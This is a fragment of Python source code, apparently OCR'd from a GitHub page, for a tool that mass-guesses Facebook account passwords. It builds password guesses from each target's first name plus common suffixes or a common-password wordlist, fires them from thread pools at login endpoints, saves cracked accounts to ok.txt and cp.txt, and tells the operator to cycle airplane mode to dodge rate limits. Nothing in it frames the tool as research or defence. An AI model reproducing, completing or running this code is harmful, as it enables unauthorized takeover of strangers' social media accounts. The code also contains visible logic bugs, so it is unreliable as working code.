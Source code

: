 						pwcuk = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"1234", frist[0]+"1122", frist[0]+"khan" ]
					elif len(frist)<=2:
						pwcuk = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"1234", frist[0]+"1122", frist[0]+"khan" ]
					elif len(frist)<=3:
						pwcuk = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"1234", frist[0]+"1122", frist[0]+"khan" ]
					else:
						pwcuk = [ "sayang", "bismillah", "anjing", "bangsat", "freefire", "katasandi", "indonesia", "sayangkamu", "doraemon", "merdeka", "sepeda", "kontol", "jembut", "legend", "kuontol", "password", "samsung", "xiaomi", "kacang", "kelinci", "youtube", "facebook" ]
					coeg.submit(api, uid, pwcuk)
			hasil()

	elif profers == "2":
		bukanmaen = raw_input("\n%s [%s•%s] Crack With Pass Auto/Manual [a/m]\n %s "%(p,k,p,panah))
		if bukanmaen in ["m","M"]:
			with ThreadPoolExecutor(max_workers=30) as coeg:
				asu = raw_input("%s [%s•%s] Example password: Pakistan, khankhan,786786\n %s[%s•%s] Pass list: "%(p,k,p,p,k,p)).split(",")
				if len(asu) =="":
					exit("%s [%s!%s] Unknown!"%(p,m,p))
				print("\n%s [%s•%s] Result OK saved to : ok.txt\n %s[%s•%s] Result CP saved to : cp.txt"%(p,k,p,p,k,p))
				print("%s [%s•%s] turn on mode airplane (5 sec)"%(p,k,p))
				print("%s [%s•%s] reset APN connections (5 sec)\n"%(p,k,p))
				#fak
				for user in id:
					uid, name = user.split("<=>")
					coeg.submit(mbasic, uid, asu)
			hasil()
		elif bukanmaen == ["a","A"]:
			with ThreadPoolExecutor(max_workers=35) as coeg:
				print("\n%s [%s•%s] Result OK saved to : ok.txt\n %s[%s•%s] Result CP saved to : cp.txt"%(p,k,p,p,k,p))
				print("%s [%s•%s] turn on mode airplane (5 sec)"%(p,k,p))
				print("%s [%s•%s] reset APN connections (5 sec)\n"%(p,k,p))
				#fake()
				for user in id:
					uid, name = user.split("<=>")
					frist=name.split(" ")
					if len(frist)>=6:
						pwcuk = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"1234", frist[0]+"khan" ]
					elif len(frist)<=2:
						pwcuk = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"1234", frist[0]+"khan" ]
					elif len(frist)<=3:
						pwcuk = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"1234", frist[0]+"khan" ]
					else:
						pwcuk = [ "sayang", "bismillah", "anjing", "bangsat", "freefire", "katasandi", "indonesia", "sayangkamu", "doraemon", "merdeka", "sepeda", "kontol", "jembut", "legend", "kuontol", "password", "samsung", "xiaomi", "kacang", "kelinci", "youtube", "facebook" ]
					coeg.submit(mbasic, uid, pwcuk)
			hasil()
